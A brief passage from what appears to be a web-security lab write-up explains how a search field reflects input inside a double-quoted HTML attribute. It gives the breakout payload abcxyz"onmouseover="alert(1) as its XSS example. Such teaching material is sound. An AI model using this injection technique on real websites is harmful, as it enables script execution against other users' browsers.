 ## The input value get put in a double quote

```html
<input type="text" placeholder="Search the blog..." name="search" value="abcxyz">
```

The value abcxyz is in double quote => payload:

```
abcxyz"onmouseover="alert(1)
```


